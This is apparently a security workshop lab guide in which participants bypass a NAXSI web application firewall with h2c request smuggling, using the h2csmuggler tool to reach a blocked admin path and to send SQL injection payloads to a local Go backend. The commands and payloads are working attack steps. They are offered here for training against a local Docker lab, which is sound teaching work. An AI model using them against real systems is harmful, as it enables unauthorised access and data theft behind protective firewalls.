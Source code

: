 # Switching Protocol Lab

## Launching the instance

You need to launch the application using the following commands:

```
$ cd 04-http2-cleartext
$ docker-compose up
```


Open [https://localhost:8443](https://localhost:8443) in a browser to confirm that everything is running.


[Live instance (only for Hackfest)](https://hackfest.xss.lol:8443/){ .md-button .md-button--primary target=_blank}


## Context

We have an application that will look and behave just like the one from the lab3. The application is also vulnerable to SQL injection.

However, this time the WAF is even more aggressive. NAXSI is the open-source firewall used. No training was made (usually done to reduce false positives). All parameters are prohibited from special characters!

Another important difference is that the backend application was reimplemented in Go and HTTP2 support was enabled.

```go
import(
	"golang.org/x/net/http2"
	"golang.org/x/net/http2/h2c"
[...]
```

![lab 4 diagram](images/lab4_diagram.png)

## Bypassing WAF

Visit `https://localhost:8443/movie?id=1`. If you attempt to tamper with the parameter `id`, you will see that it is filtered by a Web Application Firewall. In this case, NAXSI is configured in front of the web application. Exploiting some vulnerabilities can be much harder *(see impossible)* when a strong firewall is in place. By default, NAXSI is configured to block all quotes `'` characters. However, with the HTTP 2 Cleartext passthrough we just learned, it is possible to send requests that would not be seen by the firewall.

### Validation

First, we need to validate that HTTP2 cleartext is supported by the backend. If the backend application does not support it, this technique will not work.

```
python h2csmuggler.py -x https://127.0.0.1:8443 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

!!! info "h2cSmuggler"

    h2cSmuggler is a tool developed by Jake Miller from BishopFox.

    For more info : [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)

### Accessing Forbidden Path

```
> python .\h2csmuggler.py -x https://127.0.0.1:8443/ "https://127.0.0.1:8443/admin"
```

### SQLi Exploitation

When testing for SQL injection, a tester will be blocked right away by the Web Application Firewall in place.

`http://127.0.0.1/movie?id=1'` (see single quote at the end)


![NAXSI](images/naxsi.png)


We can use the HTTP2 technique to establish an HTTP tunnel with the application directly that will not be interpreted by most proxies.

```
> python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /?genre=action' or ''='
[...]
```

Can you extract the version of MySQL used by the backend application?
